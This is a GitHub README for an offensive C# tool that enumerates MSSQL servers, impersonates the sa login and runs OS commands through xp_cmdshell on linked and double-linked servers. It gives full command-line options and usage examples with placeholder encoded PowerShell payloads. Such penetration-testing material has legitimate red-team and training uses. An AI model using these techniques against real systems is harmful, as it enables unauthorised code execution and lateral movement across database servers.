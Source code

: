 # SQLinkedCodeExec

![image](https://user-images.githubusercontent.com/57995347/164911965-bc2c290e-f2ad-446b-a030-a3fb2910f52e.png)


This is an Offensive C# Tool that performs the following:
- basic enumeration on MSSQL server(s)
- execute commands on the backend OS hosting the MSSQL server(s)

The tool accepts user supplied credentials or leverages the access token of the logged-on user

```
SQLinkedCodeExec.exe /t <target> /user <username> /pass <password>  <command-to-run>
```

Options:
```
/codexec - executes specified code on MSSQL servers
/impersonate - impersonates sa user on MSSQL server
/imp_db - specifies the database for impersonation e.g. msdb. This must be used with imp_user
/imp_user - impersonates specified login on a MSSQL server e.g. sa
/localexec - enables code execution via xp_cmdshell on local MSSQL server
/link1exec - enables code execution via xp_cmdshell on single hop linked MSSQL - Link 1
/link2exec - enables code execution via xp_cmdshell on double hop linked MSSQL - Link 2
/lnk - determines if the target MSSQL server has any linked servers
/lnkedt - specifies the linked server connected to our target MSSQL - Link 1
/lnkedtt - specifies the double linked server connect to our target MSSQL - Link 2
/lnkedtcheck1 - enumerates linked server  - Link 1
/lnkedtcheck2 - enumerates double linked server  - Link 1
/pass - specifies password to use
/t - specifies the target MSSQL server
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
SQLinkedCodeExec.exe /t <target> /user <username>  /pass <password>  <command-to-run>

Usage: Examples:"
SQLinkedCodeExec.exe /?  - show's this help menu"

//Authenticate to target MSSQL with username and password"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password"

//Authenticate to target MSSQL with current system token"
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /syscreds true"

//Execute Code on target MSSQL server "
SQLinkedCodeExec.exe /t <target name or IP> /user <username> /pass <password> /localexec true /codexec < Whatever - command - goes - here >"

//Check if target MSSQL server has any server links"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true /lnk true"

//Execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP>  /syscreds true  /link1exec true /lnkedt appsrv01 /codexec <powershell - enc...>"

//Impersonate sa account and execute Code on linked MSSQL server instance (appsrv01) - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnk true /impersonate true /imp_user sa /imp_db msdb /codexec <powershell - enc>"

//Enumerate linked MSSQL server (appsrv01) for additional links to other instances - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true /lnkedt appsrv01 /lnkedtcheck1 true"

//Checked double linked server (dc01) for the user we are operating as - Link 1"
SQLinkedCodeExec.exe /t <target name or IP> /syscreds true  /lnkedt appsrv01 /lnkedtt dc01 /lnkedtcheck2 true"

//Execute code on double linked server (dc01)"
SQLinkedCodeExec.exe /t dc01 /user someguy /pass somepass /syscreds true /lnk true  /link2exec true /lnkedt appsrv01 /lnkedtt dc01 /codexec <powershell - enc....>"
```

# YouTube Video
Below is a link to see the tool in action on my YouTube channel

https://github.com/anans3-gh/SQLinkedCodeExec


# Credits
- Heavily inspired by and leveraged code from "[chvancooten's Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets)" 
